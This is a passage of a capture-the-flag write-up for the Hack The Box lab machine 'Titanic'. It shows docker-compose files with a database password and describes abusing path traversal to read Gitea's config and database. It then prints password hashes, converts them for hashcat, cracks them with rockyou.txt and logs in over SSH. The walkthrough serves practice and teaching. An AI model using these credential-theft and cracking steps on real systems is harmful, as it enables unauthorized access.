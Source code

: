 
````
{"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}



version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always



version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always


````

![Pasted image 20250221112231.png](assets/Pasted%20image%2020250221112231.png)
so de structure is `/home/developer/gitea/data/gitea/<datos>` and the defatul gitea confing file is in `conf/app.ini` so lets check it, (because we have a path travertal vector)
![Pasted image 20250221113624.png](assets/Pasted%20image%2020250221113624.png)
![Pasted image 20250221113815.png](assets/Pasted%20image%2020250221113815.png)
nice now we can preform a crack attack

````txt
cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
53c5801d185db951883293b773a1290b5f0b739198d1347ce8604b036eab8cc61bacb713d33e9aad0a7fa53b762c678783d8
3d96983dad27f6189367d8810bb26221a247414df3a5b011b4251a04d23e0b5df495851487376f34e16e7cfae255b56d36e5
````

but we have to change the structure of the hash (https://exploit-notes.hdks.org/exploit/cryptography/key-derivation-function/pbkdf2/) we can use this tool to comberte the hash

````bash
python3 gitea2hashcat.py ../_home_developer_gitea_data_gitea_gitea.db
````

![Pasted image 20250221120029.png](assets/Pasted%20image%2020250221120029.png)

now we can use hashcat

````bash
hashcat --username giteaHashes /usr/share/wordlists/rockyou.txt
````

![Pasted image 20250221133550.png](assets/Pasted%20image%2020250221133550.png)

* perfect lets try it in a ssh connection\]

````bash
ssh developer@10.10.11.55
````

![Pasted image 20250221133843.png](assets/Pasted%20image%2020250221133843.png)
